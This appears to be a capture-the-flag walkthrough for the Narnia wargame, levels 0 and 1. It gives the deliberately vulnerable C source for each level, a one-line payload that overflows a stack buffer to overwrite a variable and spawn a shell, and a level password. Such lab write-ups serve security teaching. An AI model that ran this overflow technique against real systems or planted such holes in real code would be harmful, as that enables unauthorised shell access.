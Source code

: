 ## narnia0 -> narnia1
```C
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}

```

```bash
 $ (python -c 'print "a"*19+"\x00"+"\xef\xbe\xad\xde"';cat) | ./narnia0
```

##### PASS=efeidiedae 


------------------------------------------------------------------------------------------------------------------------------------


## narnia1 -> narnia2

```C
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
```
